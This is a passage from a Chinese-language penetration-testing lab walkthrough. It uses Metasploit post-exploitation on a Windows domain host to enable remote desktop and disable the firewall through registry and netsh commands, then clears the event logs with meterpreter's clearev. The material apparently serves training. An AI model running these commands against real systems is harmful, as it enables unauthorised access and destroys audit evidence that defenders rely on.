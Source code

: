 ```

The command completed successfully.



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



启用远程桌面

> netstat -ano | findstr "3389"						# 查看端口3389是否开启
> REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
> REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
> netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
> netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
> netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本

剩下略，参考"远程登陆-启用远程桌面-MSF部分"



**域控渗透方法域上述基本一致，~~省略~~ **

需要注意的是，域控通过策略组禁用了远程桌面，方法会有点不一样。

当然，不建议进行以下操作，毕竟在实际环境中并碰不到域控。

> 计算机配置 —> 管理模板 —> Windows组件 —> 远程桌面服务 —> 远程桌面会话主机 —> 连接，允许用户通过使用远程桌面服务进行远程连接

![image-20220815174304021](./1.assets/image-20220815174304021.png)





## 清除痕迹

**清除日志**

> meterperter自带清除日志功能： clearev     				# 可清除windows中的应用程序日志、系统日志、安全日志

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > sessions 

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x64/windows  GOD\Administrator @ STU1  192.168.220.137:9999 -> 192.168.220.138:7465  (192.168.220.138)

msf6 auxiliary(admin/smb/ms17_010_command) > sessions 1
[*] Starting interaction with 1...

meterpreter > clearev
[*] Wiping 1756 records from Application...
[*] Wiping 5230 records from System...
[*] Wiping 1842 records from Security...
meterpreter > shell
Process 2000 created.
Channel 11 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```